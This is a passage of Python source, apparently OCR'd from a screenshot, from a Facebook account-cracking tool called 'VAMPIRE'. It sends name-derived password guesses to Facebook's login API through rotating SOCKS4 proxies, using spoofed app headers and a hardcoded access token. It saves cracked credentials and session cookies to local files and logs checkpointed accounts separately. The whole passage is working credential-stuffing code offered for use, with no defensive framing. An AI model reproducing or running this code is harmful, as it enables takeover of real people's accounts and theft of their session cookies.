                 head = {'User-Agent': f'{F3}','Accept-Encoding':'gzip, deflate','Connection':'close','Content-Type':'application/x-www-form-urlencoded','Host':'graph.facebook.com','X-FB-Net-HNI':str(random.randint(2e4, 4e4)),'X-FB-SIM-HNI':str(random.randint(2e4, 4e4)),'Authorization':'OAuth 350685531728|62f8ce9f74b12f84c123cc23437a4a32','X-FB-Connection-Type':'WIFI','X-Tigon-Is-Retry':'False','x-fb-session-id':'nid=jiZ+yNNBgbwC;pid=Main;tid=132;nc=1;fc=0;bc=0;cid=62f8ce9f74b12f84c123cc23437a4a32','x-fb-device-group':'5120','X-FB-Friendly-Name':'ViewerReactionsMutation','X-FB-Request-Analytics-Tags':'graphservice','X-FB-HTTP-Engine':'Liger','X-FB-Client-IP':'True','X-FB-Server-Cluster':'True','x-fb-connection-token':'62f8ce9f74b12f84c123cc23437a4a32'}
                data = {'adid':str(uuid.uuid4()),'format':'json','device_id':str(uuid.uuid4()),'email':sid,'password':ps,'generate_analytics_claims':'1','community_id':'','cpl':'true','try_num':'1','family_device_id':str(uuid.uuid4()),'credentials_type':'password','source':'login','error_detail_type':'button_with_disabled','enroll_misauth':'false','generate_session_cookies':'1','generate_machine_id':'1','currently_logged_in_userid':'0','locale':'es_ES','client_country_code':'ES','fb_api_req_friendly_name':'authenticate','api_key':'62f8ce9f74b12f84c123cc23437a4a32','access_token':accees_token}
                po = requests.post('https://graph.facebook.com/auth/login',data=data,headers=head,proxies=bro).text
                q = json.loads(po)
                if 'session_key' in q:
                     cookie = ";".join(i["name"]+"="+i["value"] for i in q["session_cookies"])
                     print(f"\r\r {red}[{green}VAMPIRE-OK{red}] {green}{sid} {red}| {green}{ps} ")
                     open('/sdcard/VAMPIRE/VAMPIRE-FILE-M3.txt','a').write(sid+'|'+ps+'\n')
                     open('/sdcard/VAMPIRE/VAMPIRE-FILE-M3-COOKIE.txt','a').write(sid+'|'+ps+'|'+cookie+'\n')
                     oks.append(sid)
                     break
                elif 'www.facebook.com' in q:
                     print(f"\r\r {green}[{red}VAMPIRE-CP{green}]{green} {sid} {red}| {green}{ps} ")
                     open('/sdcard/VAMPIRE/VAMPIRE-FILE-CP.txt','a').write(sid+'|'+ps+'\n')
                     cps.append(sid)
                else:continue
            loop+=1
        except Exception as e:time.sleep(30)
#---------FILE M4
    def __MTDFOUR__(sid, name, psw,tl):
        try:
            global oks,cps,loop,xvx
            abir = random.choice(["\x1b[38;5;196m","\x1b[38;5;208m","\033[1;30m","\x1b[38;5;160m","\x1b[38;5;46m","\033[1;33m","\033[38;5;6m","\033[1;35m","\033[1;36m","\033[1;37m"])
            sys.stdout.write(f"\r {red}[{abir}VAMPIRE{red}]-{red}[{cyan}{loop}{red}]-{red}[{green}OK{white}-{green}{len(oks)}{red}]-{red}[{green}{'{:.1%}'.format(loop/int(tl))}{red}]"),
            sys.stdout.flush()
            fs = name.split(' ')[0]
            try:
                ls = name.split(' ')[1]
            except:
                ls = fs
            for pw in psw:
                ps = pw.replace('first',fs.lower()).replace('First',fs).replace('last',ls.lower()).replace('Last',ls).replace('Name',name).replace('name',name.lower())
                accees_token = '350685531728|62f8ce9f74b12f84c123cc23437a4a32'
                prox=random.choice(xvx)
                bro={"http":"socks4://"+prox}
                head = {'User-Agent': f'{F4}','Accept-Encoding':'gzip, deflate','Connection':'close','Content-Type':'application/x-www-form-urlencoded','Host':'graph.facebook.com','X-FB-Net-HNI':str(random.randint(2e4, 4e4)),'X-FB-SIM-HNI':str(random.randint(2e4, 4e4)),'Authorization':'OAuth 350685531728|62f8ce9f74b12f84c123cc23437a4a32','X-FB-Connection-Type':'WIFI','X-Tigon-Is-Retry':'False','x-fb-session-id':'nid=jiZ+yNNBgbwC;pid=Main;tid=132;nc=1;fc=0;bc=0;cid=62f8ce9f74b12f84c123cc23437a4a32','x-fb-device-group':'5120','X-FB-Friendly-Name':'ViewerReactionsMutation','X-FB-Request-Analytics-Tags':'graphservice','X-FB-HTTP-Engine':'Liger','X-FB-Client-IP':'True','X-FB-Server-Cluster':'True','x-fb-connection-token':'62f8ce9f74b12f84c123cc23437a4a32'}
                data = {'adid':str(uuid.uuid4()),'format':'json','device_id':str(uuid.uuid4()),'email':sid,'password':ps,'generate_analytics_claims':'1','community_id':'','cpl':'true','try_num':'1','family_device_id':str(uuid.uuid4()),'credentials_type':'password','source':'login','error_detail_type':'button_with_disabled','enroll_misauth':'false','generate_session_cookies':'1','generate_machine_id':'1','currently_logged_in_userid':'0','locale':'es_ES','client_country_code':'ES','fb_api_req_friendly_name':'authenticate','api_key':'62f8ce9f74b12f84c123cc23437a4a32','access_token':accees_token}